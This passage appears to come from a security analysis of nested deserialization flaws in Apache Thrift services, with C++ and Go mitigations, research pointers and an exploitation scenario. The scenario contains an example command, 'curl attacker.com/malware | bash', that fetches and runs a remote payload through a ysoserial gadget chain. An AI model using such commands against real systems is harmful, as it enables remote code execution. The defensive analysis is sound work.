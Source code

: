 The mitigated C++ code would involve:

*   **Strict size checks:**  Before copying `profileData` into a `std::string`, verify that its length is within the expected bounds.
*   **Safe string handling:**  Use `std::string`'s methods (e.g., `assign`, `substr`) carefully to avoid buffer overflows.
*   **Type safety:**  Avoid unnecessary casts and ensure that the data is used in a way that is consistent with its declared type.
*   **Memory safety tools:** Use tools like AddressSanitizer (ASan) and Valgrind to detect memory errors during development and testing.

**Go (Vulnerable Example - Conceptual):**

Go's built-in `encoding/gob` package is *not* inherently vulnerable to arbitrary code execution in the same way as `pickle` or `ObjectInputStream`. However, if the application uses `gob` to deserialize data *within* a Thrift field (similar to the nested deserialization examples above), and the application doesn't validate the *structure* of the decoded data, it could still be vulnerable.  For example, if the decoded data is used to construct a file path or execute a command, an attacker could inject malicious values.

**Go (Mitigated Example - Conceptual):**

*   **Avoid nested `gob`:** If possible, avoid using `gob` to serialize data within Thrift fields.  Use simpler data types (like strings) and parse them safely.
*   **Validate decoded data:** If you *must* use `gob` within a Thrift field, thoroughly validate the structure and content of the decoded data *after* decoding.  Use a whitelist approach to define the expected types and values.
*   **Avoid data-driven code execution:**  Do not use the decoded data directly to construct file paths, execute commands, or perform other sensitive operations without proper sanitization and validation.

#### 2.3 Vulnerability Research

Key areas of vulnerability research include:

*   **Java Deserialization:**  The "ysoserial" tool is a prime example of how Java deserialization vulnerabilities can be exploited.  Researching ysoserial payloads and the underlying vulnerabilities (e.g., in Apache Commons Collections, Spring Framework) is crucial.
*   **Python Pickle:**  The dangers of `pickle` are well-documented.  Researching common `pickle` exploits and safe alternatives (e.g., `json`, `msgpack`) is important.
*   **Thrift Library Vulnerabilities:**  While not the primary focus, staying informed about any reported vulnerabilities in the specific Thrift library version used by the application is essential.  The CVE database and Thrift's security advisories are good resources.
*   **Type Confusion Vulnerabilities:**  Research how type confusion can lead to vulnerabilities in different languages.  This often involves understanding how objects are represented in memory and how type casting works.

#### 2.4 Exploitation Scenarios

**Scenario 1: RCE via Java Nested Deserialization**

1.  **Attacker Recon:** The attacker identifies a Thrift endpoint that accepts a `User` object.
2.  **Payload Creation:** The attacker uses ysoserial to create a serialized Java object (a gadget chain) that will execute a command (e.g., `curl attacker.com/malware | bash`).
3.  **Injection:** The attacker sends a Thrift message to the endpoint, setting the `profileData` field to the base64-encoded serialized Java object.
4.  **Thrift Deserialization:** The server-side Thrift code deserializes the message, creating a `User` object.
5.  **Nested Deserialization:** The application code (as in the vulnerable Java example) uses `ObjectInputStream` to deserialize the `profileData` field.
6.  **Code Execution:** The ysoserial payload triggers, executing the attacker's command on the server.
